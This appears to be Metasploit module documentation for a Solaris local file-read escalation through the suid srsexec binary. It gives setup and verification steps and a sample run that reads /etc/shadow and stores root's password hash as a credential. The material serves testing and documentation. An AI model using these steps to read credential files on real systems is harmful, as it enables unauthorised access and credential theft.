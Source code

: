 ## Vulnerable Application

  The vulnerable binary (`srsexec`) is included in the package Sun Remote Services
  Net Connect Software Proxy Core (SUNWsrspx).  The vulnerable versions are
  3.2.3 and 3.2.4, for Solaris 10.  This package was included on the extras/companion CD which
  doesn't seem to available anymore.  `srsexec`'s vulnerability is that it runs with the suid bit set,
  and in debug verbose mode if given a file as input, the first line of that file will be echoed back.
  Common exploitation is to read `/etc/shadow`, to get root's password hash, however any file can be read.

  In lieu of this, a mock application was created in python and is available
  [here](https://github.com/h00die/MSF-Testing-Scripts/blob/master/srsexec).
  Follow the instructions in the python script to install, `argparse` also needs to be sent
  to the Solaris box since pypi.org doesn't accept ssl2/3 which are the only versions in Solaris 10u9.

  The output from `srsexec` and this module is slightly odd.  The first line of the file will be
  after `binaries file line: ` and cut at 20 characters.  If the output is longer than 20 characters,
  then the next line will be the next 20 characters with the first 2 from the previous line repeated.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a user level session
  4. Do: ```use solaris/escalate/srsexec_readline```
  5. Do: ```set session [#]```
  6. Do: ```run```
  7. You should be able to read the first line of a file.
  8. If `/etc/shadow` is selected, check `creds`.

## Options

  **File**

  The file that should have the first line read.  Default is `/etc/shadow` and root's hash will be databased.

## Scenarios

### Solaris 10 u9 with mock binary and python 2.4

```
msf5 post(solaris/escalate/srsexec_readline) > run

[+] 3.2.4 is vulnerable
[+] Output: verify_binary(wsltw)
srsexec: binary_name: wsltw
srsexec: name_buf: wsltw_______________
binaries file line: root:MW7h.vpI1Kq1g:1
binaries file line: :17599::::::
smmsp:NP
Security verification failed for binary: wsltw
see SYSLOG(/var/adm/messages) for errors
[+] Adding root's hash added to credential database.
[*] Post module execution completed
msf5 post(solaris/escalate/srsexec_readline) > creds
Credentials
===========

host  origin        service  public  private        realm  private_type
----  ------        -------  ------  -------        -----  ------------
      1.1.1.1                root    MW7h.vpI1Kq1g         Nonreplayable hash
```

